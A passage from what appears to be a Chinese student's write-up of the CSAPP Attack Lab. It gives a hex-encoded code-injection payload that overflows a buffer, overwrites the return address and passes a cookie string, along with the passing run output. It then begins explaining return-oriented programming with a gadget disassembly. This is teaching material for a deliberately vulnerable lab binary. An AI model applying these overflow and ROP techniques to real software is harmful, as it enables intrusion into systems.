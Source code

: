 - **我们的cookie`0x59b997fa`作为字符串转换为`ASCII`为：`35 39 62 39 39 37 66 61`**

- 注入的二进制数据十六进制表示

  > 由于在`test`栈帧中多利用了一个字节存放cookie，所以本题要**输入56个字节**。注入代码的字节表示放在开头，33-40个字节放置注入代码的地址用来覆盖返回地址，最后八个字节存放cookie的`ASCII` 。

~~~
48 c7 c7 a8 dc 61 55 68 
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
~~~

#### 结果

~~~
lzy@DESKTOP-PS05SI3:~/csapp/attacklab/attacklab/target1$ ./hex2raw < phase3.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 
~~~

***
## Part 2
- 采用了两种策略来对抗缓冲区溢出攻击

  > - 栈随机化。这段程序分配的栈的位置在每次运行时都是随机的，这就使我们无法确定在哪里插入代码
  > - 限制可执行代码区域。它限制栈上存放的代码是不可执行的。

### Phase 4

#### Return-Oriented Programming

**ROP：面向返回的程序设计**，就是在已经存在的程序中找到特定的以`ret`结尾的指令序列为我们所用，称这样的代码段为`gadget`，把要用到部分的地址压入栈中，每次`ret`后又会取出一个新的`gadget`，于是这样就能形成一个程序链。

~~~C
void setval_210(unsigned *p)
{
    *p = 3347663060U;
}
~~~

~~~assembly
0000000000400f15 <setval_210>:
	400f15: c7 07 d4 48 89 c7 	movl $0xc78948d4,(%rdi)
	400f1b: c3 					retq
~~~
